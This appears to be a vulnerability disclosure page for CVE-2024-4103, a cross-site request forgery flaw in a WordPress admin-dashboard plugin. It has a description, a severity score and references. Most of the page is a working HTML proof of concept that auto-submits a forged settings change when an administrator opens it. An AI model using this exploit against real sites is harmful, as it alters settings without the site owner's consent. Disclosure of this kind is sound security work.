 ```yaml
---
layout: page
title: CVE-2024-4103
subtitle: ADFO – Custom data in admin dashboard <= 1.9.0 - Cross-Site Request Forgery
---
```

## Description
The ADFO – Custom data in admin dashboard plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.9.0. This is due to missing or incorrect nonce validation on several functions hooked via the controller() function. This makes it possible for unauthenticated attackers to edit the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.9.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=admin_form&section=list-setting&dbp_id=70" method="POST">
      <input type="hidden" name="action" value="list&#45;setting&#45;save" />
      <input type="hidden" name="frontend&#95;view&#91;if&#95;textarea&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;type&#93;" value="TABLE&#95;BASE" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;style&#95;color&#93;" value="light" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;pagination&#95;position&#93;" value="down" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;pagination&#95;style&#93;" value="numeric" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;sort&#93;" value="icon1" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;search&#93;" value="simple" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;size&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;update&#93;" value="ajax" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;export&#93;" value="" />
      <input type="hidden" name="editor&#95;table&#95;update" value="ajax" />
      <input type="hidden" name="editor&#95;table&#95;pagination&#95;style" value="numeric" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;header&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;footer&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;else&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;no&#95;result&#95;custom&#95;text&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;detail&#95;type&#93;" value="TABLE" />
      <input type="hidden" name="frontend&#95;view&#91;popup&#95;type&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;detail&#95;template&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/admin-form/adfo-custom-data-in-admin-dashboard-190-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4103





